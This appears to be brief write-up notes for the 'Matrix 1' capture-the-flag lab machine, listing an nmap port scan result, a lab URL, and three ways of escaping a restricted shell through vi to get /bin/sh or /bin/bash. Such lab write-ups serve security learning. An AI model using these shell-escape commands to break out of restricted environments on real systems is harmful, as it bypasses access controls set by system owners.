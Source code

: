 # Matrix 1

## openn port

use nmap to detect open ports:

80, 22, 31337

## access

try to access http://192.168.3.144:31337

## use vi to escape

### method 1

```
vi -c ':!/bin/sh' /dev/null
```

### method 2

```
vi
:set shell=/bin/sh
:shell
```

### method 3

```
vi 
:! /bin/bash
```
